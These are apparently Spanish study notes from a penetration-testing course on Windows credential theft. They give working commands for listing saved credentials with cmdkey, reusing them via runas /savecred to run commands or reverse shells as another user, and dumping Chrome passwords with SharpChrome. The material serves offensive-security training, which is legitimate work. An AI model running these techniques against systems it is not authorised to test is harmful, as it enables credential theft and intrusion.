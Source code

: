 # Windows Privilege Escalation – Further Credential Theft

Técnicas adicionales para obtener credenciales en Windows, útiles para **movimiento lateral** y **escalada de privilegios**. No cubre todos los métodos posibles, pero sí los más comunes.

---

## 1. Cmdkey – Credenciales Guardadas

### Descripción
- `cmdkey` permite crear, listar y eliminar credenciales almacenadas.
- Se usan para conexiones RDP o servicios remotos sin necesidad de volver a escribir la contraseña.
- Si encontramos credenciales guardadas, podemos reutilizarlas para RDP o ejecutar comandos como otro usuario.

### Comandos
```cmd
cmdkey /list
```
**Ejemplo de salida:**
```
Target: LegacyGeneric:target=TERMSRV/SQL01
Type: Generic
User: inlanefreight\bob
```

Podemos usar `runas` para ejecutar comandos con estas credenciales:

```powershell
runas /savecred /user:inlanefreight\bob "COMMAND HERE"
```

### Uso típico
- Conexión RDP automática.
- Ejecutar binarios, PowerShell o reverse shells con privilegios del usuario almacenado.

---

## 2. Credenciales Guardadas en Navegador

### Chrome y navegadores basados en Chromium
- Los usuarios suelen guardar contraseñas en el navegador.
- Herramienta recomendada: **SharpChrome**.

**Ejemplo:**
```powershell
.\SharpChrome.exe logins /unprotect
```

Salida muestra:
- `username`
- `password`
- `origin_url`
